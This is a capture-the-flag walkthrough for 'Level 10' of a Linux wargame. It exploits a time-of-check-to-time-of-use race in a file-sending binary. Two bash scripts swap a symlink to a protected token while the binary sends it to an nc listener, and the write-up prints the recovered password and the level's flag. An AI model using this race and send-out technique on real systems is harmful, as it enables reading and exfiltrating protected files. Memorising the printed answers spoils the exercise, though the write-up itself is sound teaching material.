 # Level 10

As `level10`, running `ls` gives us a binary called `level10` and a file named `token`. We don't have reading rights on the token but we can test the binary.

```shell
  $> ./level10 
  ./level10 file host
    sends file to host if you have access to it
  $> ./level10 token localhost
  You dont have access to token
  $> echo "valid" > /tmp/valid
  $> ./level10 /tmp/valid <VM-IP>
  Connecting to <VM-IP>:6969 .. Unable to connect to host <VM-IP>
```

> This binary tries to connect on port `6969` of the given IP.

To understand what does the binary do we can use `ltrace`.

```shell
  $> ltrace ./level10 /tmp/valid 192.168.1.73
  __libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
  access("/tmp/valid", 4)                                      = 0
  printf("Connecting to %s:6969 .. ", "192.168.1.73")         = 35
  fflush(0xb7fd1a20Connecting to 192.168.1.73:6969 .. )                                          = 0socket(2, 1, 0)                                             = 3
  inet_addr("192.168.1.73")                                   = 0x4901a8c0
  htons(6969, 1, 0, 0, 0)                                     = 14619
  connect(3, 0xbffff70c, 16, 0, 0)                            = -1
  printf("Unable to connect to host %s\n", "192.168.1.73"Unable to connect to host 192.168.1.73     
  )    = 39
  exit(1 <unfinished ...>
  +++ exited (status 1) +++
```

After checking manuals for the listed functions, we can identify a vulnerability through [`access`](https://man7.org/linux/man-pages/man2/faccessat.2.html) called [time to check to time of use](https://en.wikipedia.org/wiki/Time-of-check_to_time-of-use) induced by a race condition.

> Warning: Using these calls to check if a user is authorized to, for example, open a file before actually doing so using [open(2)](https://man7.org/linux/man-pages/man2/open.2.html) creates a security hole, because the user might exploit the short time interval between checking and opening the file to manipulate it.

We need to open port `6969` and listen for requests. Achieving this with [`nc`](https://linux.die.net/man/1/nc) is trivial.

```shell
  $> nc -lk 6969
```

> `-l` is used to listen for incoming connections and `-k` will make this listener lasting until termination rather that after the first received connection.

Now that `6969` is open, we can try to send data once more.

```shell
  $> ./level10 /tmp/valid <VM-IP>
  Connecting to <VM-IP>:6969 .. Connected!
  Sending file .. wrote file!
```

On the `nc` side, we get the following.
```shell
  .*( )*.
  valid
```

So we can safely assume that if we can send and read `token`, we'll see the password for `flag10` prompted the same way as this test had. For this to work we'll need two scripts... One that does the attack...

```bash
#!/bin/bash

while true;
do
  touch /tmp/link
  rm -f /tmp/link
  ln -s /home/user/level10/token /tmp/link
  rm -f /tmp/link
done
```

> It creates a file on which we have read rights then deletes it to create a symbolic link with the same name that redirects to the file we want to extract the content.

... and one that runs the command in parallel.

```bash
#!/bin/bash

IP=`ifconfig | grep -A1 "eth3" | grep "inet" | cut -d ":" -f2 | cut -d " " -f1`

while true;
do
  /home/user/level10/level10 /tmp/link $IP > /dev/null
done
```
> It retrieves the IP automatically and discards any output. It will be helpful during the attack.

All we have to do now is to run those two scripts in background and use `nc` to catch the content of `token`.

```shell
  $> /tmp/race-condition.sh &
  $> /tmp/auto-send.sh &
  $> nc -lk 6969
  ...
  .*( )*.
  woupa2yuojeeaaed06riuj63c
  .*( )*.
  ...
```

Use this string to log as `flag10` and run `getflag` to finish this level.

```shell
  $> su flag10
  Password: woupa2yuojeeaaed06riuj63c
  $> getflag
  Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

So, `feulo4b72j7edeahuete3no7c` is the flag for this level.


